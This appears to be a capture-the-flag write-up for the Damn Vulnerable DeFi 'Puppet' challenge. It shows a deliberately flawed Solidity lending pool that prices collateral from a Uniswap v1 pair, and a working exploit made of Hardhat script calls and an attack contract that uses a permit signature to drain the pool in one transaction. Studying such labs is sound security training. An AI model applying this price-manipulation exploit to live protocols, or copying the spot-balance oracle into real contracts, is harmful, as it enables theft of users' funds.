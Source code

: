 # 08_Puppet

## Challenge

There’s a lending pool where users can borrow Damn Valuable Tokens (DVTs). To do so, they first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.

There’s a DVT market opened in an old Uniswap v1 exchange, currently with 10 ETH and 10 DVT in liquidity.

Pass the challenge by taking all tokens from the lending pool. You start with 25 ETH and 1000 DVTs in balance.

You are provided with the code for the Pool:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "../DamnValuableToken.sol";

/**
 * @title PuppetPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract PuppetPool is ReentrancyGuard {
    using Address for address payable;

    uint256 public constant DEPOSIT_FACTOR = 2;

    address public immutable uniswapPair;
    DamnValuableToken public immutable token;

    mapping(address => uint256) public deposits;

    error NotEnoughCollateral();
    error TransferFailed();

    event Borrowed(address indexed account, address recipient, uint256 depositRequired, uint256 borrowAmount);

    constructor(address tokenAddress, address uniswapPairAddress) {
        token = DamnValuableToken(tokenAddress);
        uniswapPair = uniswapPairAddress;
    }

    // Allows borrowing tokens by first depositing two times their value in ETH
    function borrow(uint256 amount, address recipient) external payable nonReentrant {
        uint256 depositRequired = calculateDepositRequired(amount);

        if (msg.value < depositRequired)
            revert NotEnoughCollateral();

        if (msg.value > depositRequired) {
            unchecked {
                payable(msg.sender).sendValue(msg.value - depositRequired);
            }
        }

        unchecked {
            deposits[msg.sender] += depositRequired;
        }

        // Fails if the pool doesn't have enough tokens in liquidity
        if(!token.transfer(recipient, amount))
            revert TransferFailed();

        emit Borrowed(msg.sender, recipient, depositRequired, amount);
    }

    function calculateDepositRequired(uint256 amount) public view returns (uint256) {
        return amount * _computeOraclePrice() * DEPOSIT_FACTOR / 10 ** 18;
    }

    function _computeOraclePrice() private view returns (uint256) {
        // calculates the price of the token in wei according to Uniswap pair
        return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
    }
}
```

## Solution

Our goal in this challenge can be achieved by manipulating the price oracle. As the lending pool calculates the amount of collateral based on an exchange pool that we can access, we can change the exchange rate by buying from the pool. As this pool only has very low liquidity and no minimum liquidity constraints, we can easily shift the exchange rate into the route that we want. This needs a few steps:

1. We approve the exchange to manage our tokens.
2. We call the tokenToEthSwapInput() function of the exchange (as this doesn't directly reduce our balance of the token, but uses transferFrom we need to do the 1. step).
3. The exchange swaps our tokens for eth.
4. The exchange rate shifts to 1 eth being worth a lot more than 1 token.
5. We send our money to the Pool and retrieve all the tokens for almost no eth.

This can easily be achieved in 3 calls in the hardhat script.

```js
await token.connect(player).approve(uniswapExchange.address, PLAYER_INITIAL_TOKEN_BALANCE);
await uniswapExchange.connect(player).tokenToEthSwapInput(PLAYER_INITIAL_TOKEN_BALANCE, 1, 20775029706);
await lendingPool.connect(player).borrow(POOL_INITIAL_TOKEN_BALANCE, player.address, {value: await lendingPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE)});
```

This would unfortunately have been too easy, so the test case also included the assertion that all has to be done in 1 tx. Packaging the 2. and 3. call into a constructor isn't that much of an issue, but approve() would still have to be called before. So we somehow have to also get the call to approve() into the constructor. Luckily the DVT uses an ERC20 implementation that includes functionality for the EIP2612 functionality of permit(). What permit() does, is that it allows you to set an allowance to yourself, from another contract, if you can present a valid signature from said contract.

To generate a valid signature we first need to find out where our contract will be deployed. Luckily there is an ethers function for that, getContractAddress(), which we can use as we know the issuers' address as well as the nonce (0).

```js
const futureAddress = ethers.utils.getContractAddress({from: player.address, nonce: 0});
```

Then we need to generate a valid signature for said call. We can use the ethers function signERC2612Permit() which yields us a valid signature.

```js
const {v,r,s} = await signERC2612Permit(player, token.address, player.address, futureAddress, ethers.constants.MaxUint256, ethers.constants.MaxUint256);
```

I then wrote an attack contract that executes the before-mentioned steps.

```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.8.0;

import "./PuppetPool.sol";
import "../DamnValuableToken.sol";

contract Attack_Puppet{
    PuppetPool pool;
    DamnValuableToken token;

    constructor(address _pool, address _exchange, address _token, uint8 v, bytes32 r, bytes32 s) payable
    {
        token = DamnValuableToken(_token);
        pool = PuppetPool(_pool);
        uint256 amount = token.balanceOf(msg.sender);

        //transfer the tokens to ourself
        token.permit(msg.sender, address(this), type(uint256).max, type(uint256).max, v, r, s);
        token.transferFrom(msg.sender, address(this), amount);

        //exchange the tokens into ETH and crash the price inside the oracle by doing that
        token.approve(_exchange, amount);
        (bool success, ) = _exchange.call(abi.encodeWithSignature("tokenToEthSwapInput(uint256,uint256,uint256)", amount, 1, 20775029706));
        require(success, "Exchange failed");

        //Lend out all the tokens
        pool.borrow{value: pool.calculateDepositRequired(token.balanceOf(_pool))}(token.balanceOf(_pool), msg.sender);
    }
}
```

Finally, we need to deploy the contract:

```js
const Attack_Puppet = await ethers.getContractFactory('Attack_Puppet', player);
await Attack_Puppet.deploy(lendingPool.address, uniswapExchange.address, token.address, v, r, s, {value:  ethers.utils.parseEther('24')});
```

After the constructor is called we have the pools tokens and are finished.